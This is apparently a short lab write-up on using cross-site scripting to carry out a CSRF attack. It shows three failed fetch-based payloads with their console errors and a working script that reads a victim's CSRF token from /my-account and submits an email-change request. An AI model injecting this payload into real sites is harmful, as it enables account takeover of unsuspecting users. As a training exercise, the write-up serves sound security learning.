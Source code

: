 # Exploiting XSS to perform CSRF

## failed payloads
1. Promise { <state>: "rejected", <reason>: SyntaxError }
```html
<script>
    fetch("/my-account").then((res) => console.log(res.json())).catch((e) => console.log(e));
</script>
```

2. Promise { <state>: "pending" }
```html
<script>
    fetch("/my-account").then((res) => console.log(res)).catch((e) => console.log(e));
</script>
```

3. Promise { <state>: "pending" }   &&  undefined   &&  Uncaught (in promise) SyntaxError: JSON.parse: unexpected character at line 1 column 1 of the JSON data
```html
<script>
    fetch("/my-account").then((res) => console.log(res.json())).then((data) => console.log(data)).catch((e) => console.log(e));
</script>
```

## success solution
```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```


